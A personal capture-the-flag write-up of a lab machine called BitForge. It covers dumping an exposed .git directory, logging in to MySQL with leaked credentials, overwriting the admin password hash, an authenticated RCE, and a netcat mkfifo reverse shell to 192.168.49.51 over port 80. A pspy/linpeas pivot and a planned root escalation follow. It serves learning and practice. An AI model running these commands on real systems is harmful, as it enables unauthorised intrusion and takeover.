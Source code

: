 # BitForge

so i start off by scanning ports:

<figure><img src="../../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

I add bitforge.lob to my /etc/hosts file and go visit the website:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

I click on login, see nothing and click on employee portal:

<figure><img src="../../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

Then i add the new vhost to the hosts file and see this portal:

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

then i find this exploit that seems perfect:

<figure><img src="../../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

So i need to find a user, i remebered that with the nmap scan it found a /.git/ directory:

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

maybe a username we can exploit:

<figure><img src="../../../.gitbook/assets/image (96).png" alt=""><figcaption><p>mcsam@bitforge.lab</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption><p>1ce700a508aec3d5e4d4aa1b128a662f2c85f5ad</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

ok so this seems like the way to go so i do what git dumper does but by hand ->

```
wget -r -np -nH --cut-dirs=1 -R "index.html*" http://bitforge.lab/.git/
```

<figure><img src="../../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

Now we can connect to the mysql db and enumerate everything using the dbName

i can connect with the creds BitForgeAdmin:B1tForG3S0ftw4r3S0lutions and i had a problem:

```
ERROR 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain
```

that i bypassed with the --skip-ssl arg:

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

After enumerating databases and tables i found this:

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

So to identify the hash type i used hashlib:

```
echo "77ba9273d4bcfa9387ae8652377f4c189e5a47ee" | hashid
```

and it turned out to be \[+] SHA-1

```
hashcat -m 100 -a 0 77ba9273d4bcfa9387ae8652377f4c189e5a47ee /usr/share/wordlists/rockyou.txt
```

but i was unsuccesful so i tried other stuff:

{% embed url="https://hackviser.com/tactics/pentesting/services/mysql#post-exploitation" %}

Here i got stuck and had to look at a writeup and i wouldn't have found the attack vector on my own:&#x20;

> we can download the source code for the application, which is publicly available online ([source](https://master.dl.sourceforge.net/project/soplanning/soplanning/1.52.01/soplanning.zip?viasf=1)).
>
> Upon reviewing the source code, we found a file (`soplanning/includes/class_user.inc`) that handles password hashing. The relevant code snippet is as follows:
>
> ```
> public function hashPassword($password){
>     return sha1("�" . $password . "�");
> }
> ```

So from there i can create a php script that uses this function to create a valid hash that we can inject in the database:

```php
<?php
function hashPassword($password) {
    return sha1("�" . $password . "�");
}

$username = "admin";
$password = "password123";
$hashedPassword = hashPassword($password);

echo "Username: $username\n";
echo "Password: $password\n";
echo "Hashed Password: $hashedPassword\n";
?>
```

```
Username: admin
Password: password123
Hashed Password: ac0da8e3a1a9a231eb527bfb9b093de676e02efe
```

And now we can update the password of the admin in the database:

```
UPDATE planning_user SET password="ac0da8e3a1a9a231eb527bfb9b093de676e02efe" WHERE user_id="ADM";
```

<figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

and i'm able to use the authenticated CVE RCE to get a shell:

<figure><img src="../../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

after punching the air to get a reverse shell since this shell is annoying and restrictive i understood that there was probably firewall outbound connection restrictons and i had to go through port 80 ->

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 80 >/tmp/f
```

<figure><img src="../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

So after enumerating for a bit i quickly see that i have to pivot to an other user so i download on the target pspy and linpeas and run the 2 tools and find some nice stuff after waiting for a bit:

<figure><img src="../../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

so i can switch user to jack:

<figure><img src="../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

After looking at what's this app:

<figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

bruh box broke when i was about to go root, can't stop the process, will come back later but basically what i was going to to was write in app.py, import os and add chmod +x /bin/sh so when sudo user launches the app i get special privileges and can su to root
